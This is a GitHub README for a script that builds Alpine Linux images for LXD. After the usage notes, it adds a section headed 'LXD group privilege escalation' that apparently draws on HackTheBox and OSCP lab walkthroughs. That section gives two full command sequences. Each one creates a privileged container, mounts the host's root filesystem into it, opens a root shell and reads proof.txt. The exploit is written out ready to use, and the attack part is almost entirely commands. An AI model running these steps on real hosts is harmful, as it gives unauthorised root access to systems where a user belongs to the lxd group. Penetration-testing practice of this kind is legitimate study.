 
# LXD Alpine Linux image builder

This script provides a way to create [Alpine Linux](http://alpinelinux.org/)
images for their use with [LXD](https://linuxcontainers.org/lxd/).
It's based off the LXC templates.

The image will be built just by installing the `alpine-base` meta-package.
Networking and syslog are enabled by default.


## Usage

In order to build the latest Alpine image just run the script (must be done
as root):

    sudo ./build-alpine

For more options check the help:

    sudo ./build-alpine -h

After the image is built it can be added as an image to LXD as follows:

    lxc image import alpine-v3.3-x86_64-20160114_2308.tar.gz --alias alpine-v3.3


## LXD group privilege escalation
Source (method-1): https://academy.hackthebox.com/module/51/section/477

Source (method-2): https://falconspy.medium.com/infosec-prep-oscp-vulnhubwalkthrough-a09519236025

- Confirm the group
`id`

- Clone the repository
```
git clone https://github.com/ertaku12/lxd-alpine-builder.git

cd lxd-alpine-builder/
```

- Find the binary

```
find / -type f -name lxc 2>/dev/null

find / -type f -name lxd 2>/dev/null
```

- Exploit method-1
```bash
lxd init

lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine

lxc init alpine r00t -c security.privileged=true

lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

lxc start r00t

lxc exec r00t /bin/sh

# id
uid=0(root) gid=0(root)

cd /mnt/root/root
cat proof.txt
```

- Exploit method-2
```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias trenchesofit

lxc image list

lxc storage create pool dir

lxc profile device add default root disk path=/ pool=pool

lxc init trenchesofit ignite -c security.privileged=true

lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true

lxc start ignite

lxc exec ignite /bin/sh

# id
uid=0(root) gid=0(root)

cd /mnt/root/root
cat proof.txt
```



## License

This script uses the same license as the script it was derived from: LGPL 2.1

